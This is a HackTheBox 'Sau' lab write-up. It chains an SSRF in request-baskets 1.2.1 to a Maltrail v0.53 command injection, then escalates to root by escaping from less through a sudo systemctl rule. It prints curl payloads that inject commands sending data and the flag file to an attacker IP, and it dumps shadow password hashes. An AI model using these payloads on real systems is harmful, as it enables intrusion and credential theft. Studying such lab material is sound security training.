


Sau [HackTheBox]
[
linux htb A shopping basket?
Recon
Running nmap full scan have shown three running services
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
| 256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_ 256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp filtered http
55555/tcp open unknown
At first, my instusive thoughts had nagged me to visit http/80 but I got no response, so I switched to the other web service and received this

A webhook creation service powered by request-baskets, which also appears to be outdated, running on version 1.2.1.
Finding a vulnerability
Request Baskets has a wonderful feature that allows a user to forward a URL from a hook. You guessed it, this is a SSRF. That means we could finally get a response from internal web service running on port 80.

Applying new configuration and visiting the hook gets us this ugly looking leftover of a page.

Since nothing on this page is interactable besides hyperlinks it would be a good idea to check them out. Lets look for vulnerabilities for the running version of Maltrail (v0.53). Opening CHANGELOG.md on github project page we can spot that v0.53 has an OS command injection vulnerability to abuse. That is a good start.

Following the trail we get to this page containing POC.
It is straightforward from here how to get an actual user flag. Changing forward URL of our webhook to http://127.0.0.1:80/login and chaining curl command we get this payload
curl http://10.10.11.224:55555/o59waz0 --data 'username=;`curl 10.10.14.33:1337 --data $(whoami)`'
curl http://10.10.11.224:55555/o59waz0 --data 'username=;`curl 10.10.14.33:1337 --data $(cat /home/puma/user.txt)`'
Running it makes netcat receive the user flag: 925de45f95916d0511f7XXXXXXXXXXXX
Getting the root user
Now off to the hard part. Using python reverse shell code we get an access to the system under a puma user.
Checking sudo commands via sudo -l gives us
Matching Defaults entries for puma on sau:
env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User puma may run the following commands on sau:
(ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
Bingo. No password sudo command. If we run it we get a less output of a Maltrail log. If you did not know, less can be abused to break out of restricted environments. Typing !/bin/sh in a less prompt got me a root shell, thus bringing me to the final flag: 05bdb094a8b2d5443XXXXXXXXXXXXXXX
Shadow file
root:$6$4IguUssRBYl3/LvG$MfnFD1Y9saTrvw2OqA1VtqKxa7TsDt1kb2qsJw6inQ8GfmnqIrh32eqk9IMO4UR3fYG.TzbJeiFd7UOu1QlGR0:19461:0:99999:7:::
puma:$6$eB4LwfQg7IgQC38d$SktdHbU0gQAh0.BoRY36FHreH6xR073oHdRrk6hmvar4eZTnmkfxbUxsMBsaZMRm9XHYQF9hG4l5v6fefYdic/:19461:0:99999:7:::
Conclusion
Chaining exploits can be an effective way to create an ultimately stronger attack, as proven in this machine. Although, try to not be carried away by trying to fit every piece of the puzzle.